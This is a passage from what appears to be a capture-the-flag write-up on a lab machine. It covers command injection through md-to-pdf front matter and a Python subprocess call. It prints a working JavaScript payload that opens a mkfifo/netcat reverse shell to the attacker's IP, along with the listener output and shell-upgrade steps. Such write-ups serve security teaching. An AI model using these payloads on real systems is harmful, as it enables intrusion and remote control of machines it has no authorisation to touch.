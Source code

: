 
It’s not liking a redirect, which is largely what this shell is based on (see
my [detailed video](https://www.youtube.com/watch?v=OjkVep2EIlw) on it). I’ll
switch to the `mkfifo` rev shell (detailed
[video](https://www.youtube.com/watch?v=_q_ZCy-hEqg) on that one too) with a
new payload:

    
    
    ---js\n((require("child_process")).execSync("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 443 >/tmp/f"))\n---RCE
    

This time it works!

    
    
    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.160 60316
    /bin/sh: 0: can't access tty; job control turned off
    $
    

I’ll do the [shell upgrade
trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

    
    
    $ script /dev/null -c bash
    Script started, file is /dev/null
    svc@noter:~$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    svc@noter:~$ 
    

And grab `user.txt`:

    
    
    svc@noter:~$ cat user.txt
    c83fff05************************
    

### Alternative Command Injection

#### Local POC

The string that gets passed to `subprocess` in the Python server is:

    
    
    f"node misc/md-to-pdf.js  $'{note['body']}' {rand_int}"
    

The command itself doesn’t matter here, so let’s look at `echo $'stuff' 1234`,
where I control stuff:

    
    
    oxdf@hacky$ echo $'stuff' 123123
    stuff 123123
    